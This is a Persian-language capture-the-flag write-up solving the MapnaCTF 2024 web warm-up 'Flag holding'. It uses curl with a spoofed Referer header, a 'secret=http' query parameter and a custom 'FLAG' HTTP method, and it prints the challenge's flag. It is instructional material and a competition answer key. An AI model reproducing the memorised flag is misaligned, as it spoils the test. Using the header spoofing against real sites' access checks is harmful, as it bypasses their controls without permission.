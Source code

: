 ```yaml
---
tags:
  - Mapna CTF
  - MapnaCTF-2024
  - Web
---
```


 
زمان مطالعه: ۳ دقیقه $~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$  <a href="https://tools.pdf24.org/en/webpage-to-pdf" target="_blank">دانلود PDF :closed_book:</a> 

---


# چالش Flag holding
این یک چالش دست گرمی در بخش وب بود که حل های زیادی داشت ، همونطور که در توضیحات  چالش گفته شده ، کافیه بدونیم وب چطور کار میکنه xd 
<center>

![flag-holding.png](./flag-holding.png)

</center>

اولین کاری که خب انتظار میره انجام بدیم ، اینه که آدرس داده شده رو باز کنیم و ببینیم چی به چیه

> توجه: برای حل این سوال من از curl استفاده میکنم تا اگه در طول چالش نیازی به ست کردن هدر خاصی یا کاره خاصی بود راحت تر باشم ولی الزامی به استفاده از curl نیست

```html
$ curl http://18.184.219.56:8080/
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Flag holding</title>
	<style>
		body {
			background-color: #1a4a5e;
		}
		.msg {
			text-align: center;
			font-family: sans-serif;
			color: white;
			font-size: 40px;
			line-height: 500px;
		}
	</style>
</head>
<body>
	<div class="msg" style="">
		You are not coming from "http://flagland.internal/".
    </div>
</body>
</html>
```
همونطور که میبینین توی ریسپانس به ما گفته **You are not coming from "http://flagland.internal/"**
همونطور که چالش از ما انتظار داره که بدونیم وب چطور کار میکنه ، اگه یه نگاهی به [HTTP HEADERS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers) بندازیم با هدر *Referer* مواجه میشیم که توی توضیحات این هدر گفته شده:
```
The address of the previous web page from which a link to the currently requested page was followed.
```
پس بریم تست کنیم ببینیم اگه آدرس `http://flaglang.internal/` رو بزاریم تو هدر **Referer** چه اتفاقی میوفته:

```html
$ curl http://18.184.219.56:8080/ -H "Referer: http://flagland.internal/"
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Flag holding</title>
	<style>
		body {
			background-color: #1a4a5e;
		}
		.msg {
			text-align: center;
			font-family: sans-serif;
			color: white;
			font-size: 40px;
			line-height: 500px;
		}
	</style>
</head>
<body>
	<div class="msg" style="">
		Unspecified "secret".	</div>
</body>
</html>
```

خب مثله اینکه جواب داد ، حالا بهمون گفته **Unspecified "secret".** ، احتمالا باید یه کلیدی به اسم `secret` رو یجا ست کنیم تا ببینیم چواب میده یا نه

خب ما میتونیم این کلید رو توی کوکی ها ، هدر ها یا توی URL ست کنیم ؛ بعد از تست کردم کوکی و هدر جواب نگرفیتم ولی اگه توی  url به عنوان یه query parameter این رو تنظیم کنیم ، میبینیم که:

```html
$ curl http://18.184.219.56:8080/?secret -H "Referer: http://flagland.internal/"
<body>
	<div class="msg" style="">
		Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->
    </div>
</body>
```

مثله اینکه کوئری که ست کردیم درست نیست. ولی از اونجایی که ما از curl برای ریکویست ها استفاده میکنیم ، قسمت کامنت برای ما دیده میشه که بهمون هینت داده ولی اگه این رو توی مرورگر باز کنین تو صفحه بهتون نشون نمیده و باید source صفحه رو مشاهده کنین

مقدار secret اسم پروتکل هست که سرور و مرورگر روش توافق کردن؟
بیاین http رو تست کنیم:

```html
$ curl http://18.184.219.56:8080/?secret=http -H "Referer: http://flagland.internal/"
<body>
	<div class="msg" style="">
		Sorry we don't have "GET" here but we might have other things like "FLAG".
    </div>
</body>
```

همونطور که ممکنه بدونین توی http یکسری متد هایی هست که GET, POST, PUT, DELETE, ... از معروف هاش هستند.
ولی ما میتونیم هر متدی که میخوایم سمت سرور بفرستیم (ممنکه سرور یک متد خاصی رو هندل کنه)  به هر حال اینجا به ما گفته باید از متد FLAG استفاده کنیم
پس:

```html
$ curl http://18.184.219.56:8080/?secret=http \
        -H "Referer: http://flagland.internal/" \
        -X FLAG
<body>
	<div class="msg" style="">
		MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}	</div>
</body>
```

و بعد از اینکه از متد FLAG استفاده کنین فلگ رو بهمون میده

همونطور که دیدین این یکی از سوال های دست گرمی وب هستش و خیلی سخت نبود ولی جابب بود و شاید باعث بشه برای کسایی که وب رو نمیشناسن یه نگاهی به داکیومنت http بندازن

---
??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)

